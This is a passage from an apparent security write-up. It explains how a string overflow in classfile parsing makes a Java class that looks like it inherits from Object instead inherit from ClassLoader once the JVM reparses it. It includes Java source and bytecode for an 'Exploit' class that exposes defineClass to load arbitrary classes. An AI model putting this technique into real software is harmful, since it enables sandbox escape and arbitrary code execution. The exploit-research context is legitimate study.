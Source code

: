 In this case, the next eight bytes are `73 7472 696e 6705 77`, consisting of the “string” in evilstring, followed by the tag byte (`05`) and first content byte (`77`) of the constant `Long 0x7700010002000600L` which comes after evilstring.

At that point, we’ve reached the constant pool count (10) number of constants, so the parser continues by parsing the next two bytes of `Long 0x7700010002000600L` (`0001`) as `access_flags`, which results in just the flag `public` (no need to add `synthetic` here since integer constants can contain null bytes no problem.)

After that, it parses `this_class` (`0002`) followed by `super_class` (`0006`). In this case, the parsed superclass (6) points to `java/lang/ClassLoader`, rather than `java/lang/Object` like the original classfile did. We now have a classfile that appears harmless (inheriting from `Object`), but which turns evil (inheriting from `ClassLoader`) after the string overflow.

After that of course, the parser moves on to parsing `inferfaces_count` and `interfaces`, which fails due to garbage data, but hopefully you get the idea. In the actual exploit, we will need to carefully feed ASM enough constants to produce an entire valid classfile when parsed with the string overflow.

### Exploit writing time!

At long last, we’re ready to craft the exploit classfile. We want something equivalent to this Java code after being processed by ASM and then reparsed by the JVM with the string overflow:

```
public class Exploit extends ClassLoader {
    public Class sneakyLoad(String name, byte[] b, ProtectionDomain pd) {
        return this.defineClass(name, b, 0, b.length, pd);
    }
}


```

This corresponds to the following bytecode:

```
.class public Exploit
.super java/lang/ClassLoader

.method public sneakyLoad : (Ljava/lang/String;[BLjava/security/ProtectionDomain;)Ljava/lang/Class;
    .code stack 99 locals 99
        aload_0
        aload_1
        aload_2
        iconst_0
        aload_2
        arraylength
        aload_3
        invokevirtual Method Exploit defineClass (Ljava/lang/String;[BIILjava/security/ProtectionDomain;)Ljava/lang/Class;
        areturn
    .end code
.end method

.method public <init> : ()V
    .code stack 99 locals 99
        aload_0
        invokespecial Method java/lang/ClassLoader <init> ()V
        return
    .end code
.end method
.end class


```
